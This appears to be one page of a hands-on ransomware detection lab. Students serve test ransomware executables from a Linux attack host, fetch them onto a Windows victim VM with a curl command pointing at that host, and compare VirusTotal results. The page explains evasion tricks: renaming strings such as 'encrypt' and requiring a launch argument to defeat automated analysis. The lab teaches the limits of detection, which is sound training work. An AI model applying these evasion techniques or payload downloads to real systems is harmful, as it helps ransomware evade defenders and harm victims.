# Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Ensure you are still in the "notransomware" directory. Change directories if necesary. `cd /home/ubuntu/rsac21-ransom`
4. Run the following command to serve the files for download.
`python3 -m http.server`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). Click the drop down in the top left of the side menu and select the WIN-VICTIM-HOST connection.
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
    1. Is a folder on the desktop called "rsac21-ransom" (If not, launch a command prompt and run `git clone `)
    2. Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)

2. Open a command prompt by clicking the search icon in the bottom left and typing `cmd`.
3. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://<NIX-ATTACK-HOST IP HERE>:8000/test1.exe -o test1.exe`
4. Once you have this worked out, download all the files you created on the linux attack host just changing the file names. (Change both the URI name and the output name!)
    1. test1.exe
    2. test264.exe
    3. test232.exe
    4. test332-arg.exe
5. This is your first detection example...no alerts from windows defender.

## What does virus total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator\Desktop\rsac-ransom and select test1.exe.
4. Wait for the analysis.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just ~6(may increase as more people upload) detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scary in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test264.exe.
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back  detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.

[Live Response](response.md)
